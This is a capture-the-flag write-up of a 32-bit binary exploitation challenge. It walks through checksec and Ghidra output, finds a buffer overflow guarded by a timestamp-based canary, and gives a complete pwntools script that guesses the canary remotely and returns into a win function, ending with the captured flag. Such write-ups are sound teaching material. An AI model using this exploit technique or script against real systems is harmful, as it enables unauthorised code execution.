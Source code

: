 The first thing I do to this file s to run the file and checksec commands to see what basic protection it has.  it is in 32 bit with  PIE disabled but it has NX. It also says it has no stack canary so the canary must be added at the runtime of the program.

I then run it in ghidra
```C
  local_14 = popen("date +%s","r");
  if (local_14 == (FILE *)0x0) {
    puts("Failed to run command");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_20,12,local_14);
  pclose(local_14);
  global = strtol(local_20,(char **)0x0,10);
```
I can see from this snippet of code that it opens a file and get the UNIX timestamp, it then stores it and then turns it into a long and sets global equal to it. It then runs the readin() function with global as its parameter.

```C
void read_in(int param_1)

{
  undefined1 local_58 [72];
  int local_10;
  
  local_10 = param_1;
  read(0,local_58,140);
  if (local_10 != global) {
    puts("****Stack Smashing Detected!!!****\nExiting now.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return;
}
```
Inside of readin() there is a read that allows for a buffer overflow! But then it checks the canary that is that global variable from before.

From there it is a normal ret2win with a canary but the I imported the time library so that I could also get the current timestamp for the canary value. When running remotely sometimes the time would have a slight discrepancy. I solved this by sending it in a loop and adjusting an offset from the original time.

```python
#!/usr/bin/env python3
import time
from pwn import *

# target info
HOST = "www.cweaccessionsctf.com"
PORT = 1315

# gadgets / offsets
WIN_ADDR = 0x080491f6
BUFFER_OFFSET = 72
PAD_AFTER_CANARY = 12

def try_canary(canary):
    """
    Open a fresh connection, send the payload with our guessed canary,
    and return the process object so caller can check its output.
    """
    p = remote(HOST, PORT)
    # if the binary prints a prompt, sync up here:
    # p.recvuntil(b"Enter your data:") 

    payload  = b"A" * BUFFER_OFFSET
    payload += p32(canary)
    payload += b"B" * PAD_AFTER_CANARY
    payload += p32(WIN_ADDR)

    p.sendline(payload)
    return p

if __name__ == "__main__":
    # base time—sync with the server’s time() if you can
    base = int(time.time())

    for i in range(0, 10):
        guess = base + i
        log.info(f"[*] attempting canary = 0x{guess:08x}")
        p = try_canary(guess)

        # give the remote a moment to respond
        time.sleep(0.1)

        # read whatever comes back
        try:
            data = p.recvall(timeout=1)
        except EOFError:
            data = b""

        # look for your flag in the output
        if b"CWE{" in data or b"flag" in data.lower():
            log.success(f"FOUND! canary=0x{guess:08x}")
            print(data.decode(errors="ignore"))
            p.interactive()
            break

        # if it wasn’t the right canary, close and loop
        p.close()
    else:
        log.error("All attempts failed.")


```

CWE{fly_away_little_canary_TZ4gELYH}
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE1MzIyMzkwNjMsNTA0MTQ4NDA2XX0=
-->
